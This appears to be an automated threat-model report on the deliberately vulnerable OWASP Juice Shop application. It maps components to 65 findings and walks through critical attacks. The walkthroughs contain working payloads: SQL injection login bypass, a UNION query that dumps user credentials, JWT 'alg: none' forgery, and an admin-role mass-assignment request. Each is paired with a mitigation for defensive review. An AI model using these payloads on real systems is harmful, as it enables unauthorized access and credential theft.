

**Key takeaway:** Every actor in the context interacts with juice-shop through its external interface, so authentication and input validation at that edge govern the entire attack surface.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).



**Key takeaway:** The system decomposes into 2 client, 5 application and 1 data unit(s); Express\.js REST API Backend carries the most Critical findings (5) and bounds the worst-case blast radius.

### 2.3 Components


Who reaches each component, and through which trust zone. Four columns map external actors to the internal tiers (Client / Application / Data); solid green arrows show legitimate data flow, dashed red arrows mark intrusion vectors. The component table directly below holds source paths and linked threats per `C-NN`; per-finding evidence is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** Express\.js REST API Backend concentrates the most findings (19 of 65 across all components); the table below maps each component to its source paths and linked threats.

| ID | Name | Type | Key Paths | Linked Threats |
|----|----------------------|-----------|--------------------------------------|------------------------------------------------|
| <a id="c-01"></a><a id="angular-spa"></a><span style="white-space:nowrap">C-01</span> | Angular SPA Frontend | client | `frontend/src/**`<br/>`frontend/dist/**`<br/>`frontend/*.ts`<br/>`frontend/*.json` | 🔴 [F-001](#f-001) — JWT Bearer Token Stored in localStorage (`login.component.ts:101`)<br/>🟠 [F-002](#f-002) — JWT Stored in localStorage (`request.interceptor.ts:13`)<br/>🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential (`oauth.component.ts:30`)<br/>🟠 [F-015](#f-015) — OAuth Implicit Flow Without State or PKCE (`login.component.ts:134`)<br/>🔴 [F-020](#f-020) — Stored XSS in Product Descriptions (`search-result.component.ts:132`)<br/>🔴 [F-021](#f-021) — Reflected DOM XSS (`search-result.component.ts:170`)<br/>🟠 [F-027](#f-027) — OAuth Access Token Exposed in URL Fragment (`app.routing.ts:262`)<br/>🔴 [F-048](#f-048) — Client-Side Route Guards Bypassable Without Server (`app.guard.ts:17`)<br/>🔴 [F-053](#f-053) — DOM XSS (`last-login-ip.component.ts:39`) |
| <a id="c-02"></a><a id="express-backend"></a><span style="white-space:nowrap">C-02</span> | Express\.js REST API Backend | application | `routes/**`<br/>`server.ts`<br/>`lib/**`<br/>`app.ts`<br/>`build/**` | 🔴 [F-007](#f-007) — Insecure Direct Object Reference (`routes/address.ts:11`)<br/>🔴 [F-008](#f-008) — UNION SQL Injection (`routes/search.ts:23`)<br/>🔴 [F-009](#f-009) — Mass Assignment: role Field Writable (`server.ts:483`)<br/>🔴 [F-012](#f-012) — Server-Side Template Injection (`routes/userProfile.ts:62`)<br/>🔴 [F-013](#f-013) — Mass Assignment Admin Role (`server.ts:499`)<br/>🟠 [F-016](#f-016) — Rate Limit Bypass (`server.ts:346`)<br/>🔴 [F-018](#f-018) — Missing Authentication on `/file-upload` Multipart Upload Endpoint (`server.ts:309`)<br/>🔴 [F-025](#f-025) — NoSQL Injection with multi:true Enables (`routes/updateProductReviews.ts:18`)<br/>🟠 [F-026](#f-026) — Missing Security Audit Log (`server.ts:338`)<br/>🟠 [F-035](#f-035) — Unauthenticated Public Exposure of Encryption Key Directory (`server.ts:277`)<br/>🟠 [F-037](#f-037) — Verbose Error Handler Exposing Stack Traces (`server.ts:676`)<br/>🟠 [F-038](#f-038) — Unauthenticated FTP and Encryption Key Directory Listing (`server.ts:269`)<br/>🟠 [F-039](#f-039) — Server-Side Request Forgery (`routes/profileImageUrlUpload.ts:24`)<br/>🟠 [F-040](#f-040) — Unauthenticated Exposure of Encryption Keys and JWT Material (`server.ts:278`)<br/>🟠 [F-043](#f-043) — No Rate Limiting on Login Endpoint (`server.ts:594`)<br/>🟠 [F-044](#f-044) — No Rate Limiting on B2B Orders Endpoint Enables Event-Loop (`server.ts:645`)<br/>🟠 [F-045](#f-045) — Unbounded Login Brute Force No Rate Limit (`server.ts:594`)<br/>🔴 [F-051](#f-051) — Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`)<br/>🔴 [F-052](#f-052) — Unauthenticated Admin Endpoints (`server.ts:604`) |
| <a id="c-03"></a><a id="file-upload-service"></a><span style="white-space:nowrap">C-03</span> | File Upload & Processing Service | application | `routes/fileUpload.ts`<br/>`routes/profileImageUrlUpload.ts`<br/>`routes/profileImageFileUpload.ts`<br/>`routes/logfileServer.ts`<br/>`routes/keyServer.ts` | 🔴 [F-010](#f-010) — XXE (`routes/fileUpload.ts:83`)<br/>🔴 [F-014](#f-014) — Zip Slip Arbitrary File Write (`routes/fileUpload.ts:45`)<br/>🟠 [F-041](#f-041) — Unauthenticated Log File Disclosure (`routes/logfileServer.ts:14`)<br/>🟠 [F-046](#f-046) — XML/YAML Bomb DoS (`routes/fileUpload.ts:83`)<br/>🟡 [F-057](#f-057) — No Audit Log on Unauthenticated File Upload or (`routes/fileUpload.ts:75`) |
| <a id="c-04"></a><a id="b2b-api"></a><span style="white-space:nowrap">C-04</span> | B2B Order Processing API | application | `routes/b2bOrder.ts`<br/>`routes/checkKeys.ts` | 🔴 [F-011](#f-011) — JavaScript Sandbox Escape (`routes/b2bOrder.ts:23`)<br/>🔴 [F-028](#f-028) — Hardcoded Ethereum Wallet Mnemonic Exposes Wallet (`routes/checkKeys.ts:10`)<br/>🟡 [F-055](#f-055) — Missing Structured Audit Log for B2B Order Execution (`routes/b2bOrder.ts:16`)<br/>🟡 [F-058](#f-058) — Sandbox Error Details Leaked to B2B API Callers (`routes/b2bOrder.ts:32`) |
| <a id="c-05"></a><a id="data-layer"></a><span style="white-space:nowrap">C-05</span> | Data Layer (SQLite + MarsDB) | data | `models/**`<br/>`data/**`<br/>`config/**`<br/>`lib/mongodb.ts`<br/>`ftp/**` | 🟠 [F-036](#f-036) — Weak MD5 Password Hashing Without Salt (`lib/insecurity.ts:43`)<br/>🟡 [F-056](#f-056) — No Audit Logging for Data Write Operations (`models/index.ts:39`)<br/>🟠 [F-065](#f-065) — Data disclosure (`challenges.yml:1381`) |
| <a id="c-06"></a><a id="auth"></a><span style="white-space:nowrap">C-06</span> | Authentication & Session Surface | application | `lib/insecurity.ts`<br/>`lib/startup/registerWebsocketEvents.ts`<br/>`routes/2fa.ts`<br/>`routes/authenticatedUsers.ts`<br/>`routes/login.ts` | 🔴 [F-004](#f-004) — SQL Injection Authentication Bypass (`routes/login.ts:34`)<br/>🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery (`lib/insecurity.ts:23`)<br/>🔴 [F-006](#f-006) — Insecure JWT Verification (`lib/insecurity.ts:54`)<br/>🟠 [F-022](#f-022) — MD5 Password Hashing (`lib/insecurity.ts:43`)<br/>🟠 [F-049](#f-049) — JWT Role Claims Not Validated Against Database at (`lib/insecurity.ts:156`)<br/>🟠 [F-050](#f-050) — Two-Factor Authentication Disable (`routes/2fa.ts:158`)<br/>🟡 [F-054](#f-054) — No Authentication Event Audit Logging (`routes/login.ts:19`) |
| <a id="c-07"></a><a id="ci-cd-pipeline"></a><span style="white-space:nowrap">C-07</span> | CI/CD Pipeline | application | `.github/workflows/**`<br/>`.gitlab-ci.yml`<br/>`Dockerfile`<br/>`Dockerfile.*`<br/>`*.Dockerfile` | 🟠 [F-017](#f-017) — Unpinned GitHub Action Tag Reference (`codeql-analysis.yml:23`)<br/>🟠 [F-023](#f-023) — Disabled Lockfile Enforcement Allows Dependency Substitution<br/>🟠 [F-024](#f-024) — Unsafe Postinstall Hook Execution During Production Docker Build — Dockerfile:5<br/>🟠 [F-029](#f-029) — Uses --unsafe-perm flag — Dockerfile:5<br/>🔴 [F-030](#f-030) — Hardcoded Deployment Email in Public Workflow (`ci.yml:342`)<br/>🟠 [F-031](#f-031) — GitHub Actions workflow missing top-level permissions block (`ci.yml`)<br/>🟠 [F-032](#f-032) — Third-party GitHub Action not pinned to commit SHA (`ci.yml:161`)<br/>🟠 [F-033](#f-033) — On disabled lockfile integrity not enforced<br/>🟠 [F-034](#f-034) — Docker base image not digest-pinned — Dockerfile:1<br/>🔴 [F-059](#f-059) — Container images published without signing or provenance (`release.yml`)<br/>🟡 [F-060](#f-060) — Untrusted npm Install/Postinstall Scripts Enabled — Dockerfile:5<br/>🟡 [F-061](#f-061) — Dependabot Ecosystem Coverage Incomplete (.github/dependabot.yml)<br/>🟢 [F-063](#f-063) — Archived Action Dependency in Release Pipeline (`release.yml:66`)<br/>🟢 [F-064](#f-064) — Missing HEALTHCHECK instruction — Dockerfile |
| <a id="c-08"></a><a id="realtime-channel"></a><span style="white-space:nowrap">C-08</span> | Real-time WebSocket Channel | application | `lib/challengeUtils.ts`<br/>`lib/startup/registerWebsocketEvents.ts` | 🔴 [F-019](#f-019) — Unauthenticated WebSocket Channel (`registerWebsocketEvents.ts:24`)<br/>🟠 [F-042](#f-042) — Unauthenticated CTF Flag Broadcast on WebSocket (`registerWebsocketEvents.ts:30`)<br/>🟠 [F-047](#f-047) — Unbounded WebSocket Connection Acceptance (`registerWebsocketEvents.ts:20`)<br/>🟡 [F-062](#f-062) — ReDoS (`registerWebsocketEvents.ts:47`) |
### 2.4 Technology Architecture

The technology stack the system is built on. Each box names the framework or runtime that fills that role; per-component findings live in the [§2.3](#23-components) component table above, and the full per-finding catalogue is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** The stack spans 1 data-tier store(s) behind the application tier; injection and data-at-rest exposure track the data tier, detailed per finding in [§8 Findings Register](#8-findings-register).

> **Legend:** **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited - one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. The cross-finding view (which weaknesses combine toward the worst-case goal, and where one fix severs several paths) is in the [Critical Attack Tree](#critical-attack-tree). Full per-finding context - severity rationale, assets, detection signals - is in the [§8 Findings Register](#8-findings-register) row for each finding.

### 3.1 OAuth Derived Password from Email Enables Credential

**Source:** 🔴 [F-003](#f-003) — `frontend/src/app/oauth/oauth.component.ts:30`

Severity **Critical** ([CWE-798](https://cwe.mitre.org/data/definitions/798.html)). STRIDE: Spoofing. See [§8 F-003](#f-003) for the full register row.

**Attack Steps**

1. After Google OAuth login, `oauth.component.ts:30` computes the user's local password as `btoa(profile.email.split('').reverse().join(''))` and passes it to `userService.save()` and then `userService.login()` at line 46 with the same derivation.
2. Any attacker who knows a target user's email address (which Google profiles expose) can independently compute this password and authenticate via the standard `/rest/user/login` endpoint with `{ email: victim@email, password: btoa(victim@email.split('').reverse().join('')) }`, bypassing Google OAuth entirely.
3. When the target account is an admin, this becomes a complete privilege escalation.

**Sequence Diagram**



**Key takeaway:** Until ❷ [M-013](#m-013) (Move secrets to a managed secret store) lands, 🔴 [F-003](#f-003) — OAuth Derived Password from Email Enables Credential — `oauth.component.ts:30` is exploitable at `frontend/src/app/oauth/oauth.component.ts:30` (Critical-severity, [CWE-798](https://cwe.mitre.org/data/definitions/798.html)).

**Defense in Depth**

- Primary mitigation: ❷ [M-013](#m-013) (Move secrets to a managed secret store)

### 3.2 SQL Injection Authentication Bypass

**Source:** 🔴 [F-004](#f-004) — `routes/login.ts:34`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Spoofing. See [§8 F-004](#f-004) for the full register row.

**Attack Steps**

1. The login handler at `routes/login.ts:34` constructs a raw SQL query via string interpolation: `SELECT * FROM Users WHERE email = '${req.body.email}' AND password = '${security.hash(req.body.password)}'`.
2. An unauthenticated attacker submits `' OR '1'='1'--` as the email parameter.
3. The injected clause short-circuits the WHERE condition, matching all rows.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-014](#m-014) (Use parameterized database queries) lands, 🔴 [F-004](#f-004) — SQL Injection Authentication Bypass — `routes/login.ts:34` is exploitable at `routes/login.ts:34` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-014](#m-014) (Use parameterized database queries)

### 3.3 Hardcoded RSA Private Key Enables Universal JWT Forgery

**Source:** 🔴 [F-005](#f-005) — `lib/insecurity.ts:23`

Severity **Critical** ([CWE-321](https://cwe.mitre.org/data/definitions/321.html)). STRIDE: Spoofing. See [§8 F-005](#f-005) for the full register row.

**Attack Steps**

1. The RSA private key used to sign all application JWTs is embedded verbatim in `lib/insecurity.ts` at line 23.
2. The public GitHub repository makes this key available to anyone.
3. An attacker reads the private key from the source, crafts a JWT payload with `role: 'admin'` and any target `email`, signs it with the known private key using `RS256`, and submits it as a Bearer token.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-015](#m-015) (Move cryptographic keys to a managed secret store) lands, 🔴 [F-005](#f-005) — Hardcoded RSA Private Key Enables Universal JWT Forgery — `lib/insecurity.ts:23` is exploitable at `lib/insecurity.ts:23` (Critical-severity, [CWE-321](https://cwe.mitre.org/data/definitions/321.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-015](#m-015) (Move cryptographic keys to a managed secret store)

### 3.4 Insecure JWT Verification

**Source:** 🔴 [F-006](#f-006) — `lib/insecurity.ts:54`

Severity **Critical** ([CWE-347](https://cwe.mitre.org/data/definitions/347.html)). STRIDE: Spoofing. See [§8 F-006](#f-006) for the full register row.

**Attack Steps**

1. The application uses express-jwt version 0.1.3 (package\.json line 167) and jsonwebtoken version 0.4.0 (line 189).
2. These are pre-CVE-2015-9235 versions that do not enforce the expected algorithm and accept tokens with `alg: 'none'` in the header, treating the empty signature as valid.
3. An attacker takes any valid JWT, changes the `alg` header to `none`, strips the signature, and submits the token.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-016](#m-016) (Enforce JWT signature and algorithm verification) lands, 🔴 [F-006](#f-006) — Insecure JWT Verification — `lib/insecurity.ts:54` is exploitable at `lib/insecurity.ts:54` (Critical-severity, [CWE-347](https://cwe.mitre.org/data/definitions/347.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-016](#m-016) (Enforce JWT signature and algorithm verification)

### 3.5 Insecure Direct Object Reference

**Source:** 🔴 [F-007](#f-007) — `routes/address.ts:11`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-007](#f-007) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/address.ts:11`.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-007](#f-007) — Insecure Direct Object Reference — `routes/address.ts:11` is exploitable at `routes/address.ts:11` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.6 UNION SQL Injection

**Source:** 🔴 [F-008](#f-008) — `routes/search.ts:23`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-008](#f-008) for the full register row.

**Attack Steps**

1. The search route at `routes/search.ts:23` concatenates `req.query.q` directly into a SELECT statement: `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`.
2. An attacker sends GET `/rest/products/search`?q=')) UNION SELECT sql,2,3,4,5,6,7,8,9 FROM sqlite_master-- to extract the full database schema.
3. A follow-up UNION SELECT id,email,password,role,4,5,6,7,8 FROM Users dumps all user credentials (`MD5` hashes) and role assignments.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-018](#m-018) (Use parameterized database queries) lands, 🔴 [F-008](#f-008) — UNION SQL Injection — `routes/search.ts:23` is exploitable at `routes/search.ts:23` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-018](#m-018) (Use parameterized database queries)

### 3.7 Mass Assignment: role Field Writable

**Source:** 🔴 [F-009](#f-009) — `server.ts:483`

Severity **Critical** ([CWE-915](https://cwe.mitre.org/data/definitions/915.html)). STRIDE: Tampering. See [§8 F-009](#f-009) for the full register row.

**Attack Steps**

1. The finale-rest auto-generated REST API registers UserModel with `exclude: ['password', 'totpSecret']` (`server.ts:483`), but does NOT exclude the `role` field.
2. Finale passes the entire request body to Sequelize's `create()` method.
3. An unauthenticated attacker sends `POST /api/Users` with body `{"email":"attacker@evil.com","password":"pass","role":"admin"}`.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-019](#m-019) (Add 'role' to excludeAttributes in the finale User resource,) lands, 🔴 [F-009](#f-009) — Mass Assignment: role Field Writable — `server.ts:483` is exploitable at `server.ts:483` (Critical-severity, [CWE-915](https://cwe.mitre.org/data/definitions/915.html)).

**Defense in Depth**

